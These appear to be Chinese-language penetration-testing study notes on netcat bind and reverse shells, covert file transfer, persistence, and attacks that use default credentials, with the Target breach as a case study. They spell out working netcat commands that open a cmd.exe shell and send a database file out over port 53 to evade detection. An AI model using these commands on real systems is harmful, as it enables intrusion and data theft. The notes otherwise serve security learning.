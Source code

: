 ## 操作方式

- **Bind Shell 建立方式**：
  - 在受害者機器上執行：`nc -l -p 443 -e cmd.exe`
  - 攻擊者連接：`nc 10.1.0.1 443`

- **Reverse Shell 建立方式**：
  - 在攻擊者機器上執行：`nc -l -p 443`
  - 在受害者機器上執行：`nc 10.1.0.2 443 -e cmd.exe`

- **文件傳輸技巧**：
  - 攻擊者設置接收：`nc -l -p 53 > database.sql`
  - 受害者傳送：`type database.sql | nc 10.1.0.2 53`
  - 使用非標準埠（如 53）可偽裝成正常流量避開檢測

## 取得反向連線的方法

- **社交工程**：欺騙使用者安裝惡意軟體
- **漏洞利用**：針對已知弱點執行攻擊
- **持久性技巧**：設定排程任務使受害者定期連線
  - 可設定每日特定時間呼叫監聽器
  - 可採用更隱匿的方式：不使用時中斷連線，定期重連

# Default Credentials

- **Default Credentials**（預設憑證）：出廠設備或應用程式預先設定的使用者名稱和密碼
  - 這些憑證原本應在安裝後被變更，但常常未被更改，導致系統容易遭受攻擊
  - 由於預設憑證廣為人知，攻擊者可輕易取得並利用來進行未授權存取

- **Default Credentials 的常見目標**：
  - 網路設備：路由器、交換器、IP 攝影機
  - 軟體應用程式：資料庫、網頁應用程式
  - 網路印表機：可能儲存和轉發掃描文件，成為敏感資料洩漏點

- **常見的預設憑證範例**：
  - 路由器：username: admin / password: admin 或 password
  - MySQL 資料庫：root 帳號常使用無密碼或簡單密碼如 "root"

- **自動化檢測工具**：
    - Nmap 搭配 http-default-accounts 腳本
    - Hydra 和 Medusa：可執行使用預設使用者名稱和密碼的暴力破解攻擊
    - Nessus 等漏洞掃描工具

- **攻擊途徑**：
  - 密碼噴灑攻擊（Password Spraying）：使用包含大量預設密碼的字典檔
  - 橫向移動（Lateral Movement）：利用預設憑證獲得一個設備的存取權後，取得資訊來移動到網路的其他部分
  - 流量攔截：透過網路交換器的預設憑證取得存取權，進而攔截和分析流量

- **真實案例**：2013 年 Target 資料外洩事件
  - 攻擊者從第三方供應商 Fazio Mechanical Services 竊取憑證
  - 使用被竊取的憑證存取 Target 存儲供應商資訊的伺服器
  - 由於該伺服器使用預設憑證，攻擊者成功竊取了：
    - 超過 4,000 萬 Target 客戶的信用卡和借記卡資訊
    - 超過 7,000 萬客戶的個人資訊（姓名、地址、電話號碼等）
